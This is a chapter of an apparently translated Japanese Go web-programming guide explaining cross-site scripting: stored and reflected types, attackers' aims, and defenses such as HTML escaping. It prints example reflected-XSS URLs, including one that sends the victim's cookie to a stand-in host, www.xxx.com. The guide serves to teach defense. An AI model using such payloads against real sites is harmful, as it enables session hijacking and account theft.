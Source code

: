 # 9.3 XSS攻撃の回避
インターネット技術の発展に伴って、現在のWebアプリケーションはどれも大量の動的なコンテンツを含ませることでユーザビリティを高めています。いわゆる動的なコンテンツとは、アプリケーション・プログラムがユーザの環境とユーザのリクエストに従って対応するコンテンツを出力することをいいます。動的なホームページは"クロスサイトスクリプティング攻撃（Cross Site Scripting, セキュリティ専門家は通常これを省略してXSSと呼びます）"の脅威を受ける可能性があります。性的なホームページは完全にこの影響を受けません。

## XSSとは何か
XSS攻撃：クロスサイトスクリプティング(Cross-Site Scripting)。カスケーディングスタイルシート(Cascading Style Sheets, CSS)の省略と混同しないようにクロスサイトスクリプティングはXSSと省略されます。XSSはよく見かけるセキュリティホールの一種です。これは攻撃者が悪意のあるコードを他のユーザが使用しているページに埋め込むことを許してしまいます。多くの攻撃(一般には攻撃者と被害者のみに影響します)とは異なりXSSは第三者に及びます。すなわち、攻撃者、クライアントとWebアプリケーションです。XSSの攻撃目標はクライアントに保存されたcookieの奪取またはクライアントの身分を識別する慎重に扱うべき情報を使う他のページです。一旦合法的なユーザの情報が取得されると、攻撃者は合法的なユーザを装ってページに対してやりとりを行うことができるようになります。

XSSは通常２つに大別することができます：ひとつは保存型XSSで、主にユーザにデータを入力させ、他にこのページを閲覧しているユーザが閲覧できる場所で出くわします。掲示板、コメント欄、ブログや各種フォーム等です。アプリケーションプログラムはデータベースからデータを検索し、画面に表示させます。攻撃者は関連する画面で悪意のあるスクリプトデータを入力したあと、ユーザがこのページを閲覧したときに攻撃をうけます。このプロセスを簡単にご説明すると：悪意あるユーザのHtmlがWebアプリケーションに入力->データベースに入る->Webアプリケーション->ユーザのブラウザ。もう一つはリフレクション型XSSです。主な方法はスクリプトコードをURLアドレスのリクエストパラメータに追加することです。リクエストパラメータがプログラムに入ると、ページに直接出力され、ユーザがこのような悪意あるリンクをクリックすることで攻撃を受けます。

現在のXSSの主な手段と目的は以下のとおり：

- cookieを盗み、慎重に扱うべき情報を取得する。
- Flashを埋め込むことで、crossdomainの権限設定により高い権限を取得する。またはJava等を利用して似たような操作を行う。
- iframe、frame、XMLHttpRequestまたは上のFlashといった方法を利用して、（被害者の）ユーザの身分にある管理操作を実行する。またはマイクロブログを送信したり、フレンドを追加したり、プライベートなメールを送信したりといった通常の操作を実行する。少し前に新浪微博はXSSに遭遇しました。
- 攻撃可能なゾーンを利用してその他のゾーンの信任の機能を受ける。信任を受けたソースの身分で通常は許されていない操作をリクエストする。例えば不当な投票活動等。
- PVが非常に大きいページでのXSSは小型のページを攻撃し、DDoS攻撃の効果を実現することができる。

## XSSの原理
Webアプリケーションはユーザが送信したリクエストのデータに対し十分な検査およびフィルタリングを行なっていないと、ユーザが送信するデータにHTMLコードを許してしまい（主に">"、"<"）、エスケープされていない悪意あるコードを第三者であるユーザのブラウザ上で解釈/実行させてしまいます。これがXSSセキュリティホールを生み出す原因となっています。

以下ではリフレクション型XSSを例にXSSのプロセスをご説明します：パラメータによってユーザの名前を出力するページがあるとします。例えばurl：`http://127.0.0.1/?name=astaxie`にアクセスすると、ブラウザでは以下のような情報を出力します：

	hello astaxie

もし我々が`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`のようなurlを送信した場合、ブラウザがダイアログを表示することに気づくでしょう。これはつまり、ページにXSSセキュリティホールが存在することを示しています。では悪意あるユーザはどのようにしてCookieを盗み出すのでしょうか？上と同じように、`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`というurlでは、現在のcookieが指定されたページ、www.xxx.comに送信されます。このようなURLは一目見て問題があるとわかると思われるかもしれません。いったい誰がクリックするのかと。そうです。このようなURLは人に疑われがちです。しかしURL短縮サービスを使ってこれを短縮した場合、あなたは気づくことができるでしょうか？攻撃者は短縮されたurlをなんらかの経路で広め、真相を知らないユーザが一旦このようなurlをクリックすることで、対応するcookieデータがあらかじめ設定されたページに送信されてしまいます。このようにユーザのcookie情報を盗んだあとは、Websleuthといったツールを使うことでこのユーザのアカウントを盗み出すことができるか検査されてしまいます。

XSSに関するより詳しい分析は"[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"と呼ばれる記事を参考にしてください。

## どのようにしてXSSを予防するか
答えは簡単です。ユーザのいかなる入力も決して信用せず、入力に含まれるすべての特殊文字をフィルタリングするのです。このようにすれば大部分のXSS攻撃を根絶することができます。

現在XSSの防御では主に以下のいくつかの方法があります：

- 特殊文字のフィルタリング

	XSSを避ける方法の一つは主にユーザが提供するコンテンツに対してフィルタリングを行うことです。Go言語ではHTMLのフィルタリング関数を提供しています：

	text/templateパッケージのHTMLEscapeString、JSEscapeStringといった関数です。

- HTTPヘッダに指定した型を使用する

	`w.Header().Set("Content-Type","text/javascript")`

	このようにすることでブラウザにhtmlを出力させずjavascriptコードを解釈させることができます。


## サマリー
XSSセキュリティホールはとても危険なものです。Webアプリケーションを開発している時、必ずデータをフィルタリングするよう肝に銘じておいてください。特にクライアントに出力する前に。これは現在のところXSSを防止する手段として有効です。

## links
   * [目次](<preface.md>)
   * 前へ: [入力フィルタリングの確保](<09.2.md>)
   * 次へ: [SQLインジェクションの回避](<09.4.md>)
